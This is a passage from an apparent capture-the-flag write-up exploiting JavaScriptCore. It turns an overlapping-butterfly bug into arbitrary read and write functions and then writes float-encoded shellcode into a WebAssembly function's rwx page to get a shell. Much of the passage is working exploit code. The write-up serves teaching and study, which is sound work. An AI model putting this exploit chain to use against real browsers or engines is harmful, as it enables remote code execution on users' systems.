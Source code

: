 
From here, achieving arbitrary read and write is extremely trivial. We have object `c`'s butterfly pointing to `d`, so `c[1]` will access the butterfly. 

For arbitrary read, we can set `c[1]` to the address we want to read from, and `d[0]` will give us the required value. Similary for arbitrary write, we can set `c[1]` to the address we want to write to, and write that value to `d[0]`. Let's expand our PoC:
```js
function read(addr) {
    c[1] = addr
    return d[0]
}

function write(addr, value) {
    c[1] = addr
    d[0] = value
}
```

Now that we have arbitrary read and write, as well as a primitive to leak, the rest of the exploit is pretty easy. We can use either a JIT compiled function or a wasm function, which will both create `rwx` pages, write our own shellcode to the generated `rwx` page, then call the aforementioned function, to get code execution! 

This snippet of code will do the trick:
```js
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code)
var wasm_instance = new WebAssembly.Instance(wasm_mod)
var f = wasm_instance.exports.main
var addr_f = addrof(f)
var addr_shellcode = read(addr_f + 0x38)

let shellcode = [
    2.825563119134789e-71, 3.2060568105999132e-80,
    -2.5309726874116607e+35, 7.034840446283643e-309
]

for(var i = 0; i < shellcode.length; i++) {
    write(addr_shellcode + i*8, shellcode[i])
}
f()
```
Note: you will have to do a number of int-to-float and float-to-int conversions, but I've not included them in the snippets for the sake of clarity. My full exploit will be present at the end of this post.

The release build of the `jsc` binary was running on the server, so just giving it our exploit gives us a shell!

### Other exploit methods
